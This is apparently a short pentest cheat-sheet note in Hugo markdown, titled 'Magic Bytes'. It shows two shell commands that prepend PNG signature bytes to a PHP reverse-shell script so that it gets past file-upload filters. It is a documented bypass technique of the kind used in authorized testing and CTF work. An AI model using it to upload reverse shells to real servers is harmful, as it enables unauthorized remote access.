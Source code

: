 ```yaml
---
title: "Magic Bytes"
date: 2024-7-2
tags: ["file upload", "magic bytes", "png", "bypass"]
---
```


### Forge File Signature

{{< tab set1 tab1 active >}}png{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r >> php-reverse-shell.php.png
```

```console
cat php-reverse-shell.php >> php-reverse-shell.php.png
```

{{< /tabcontent >}}

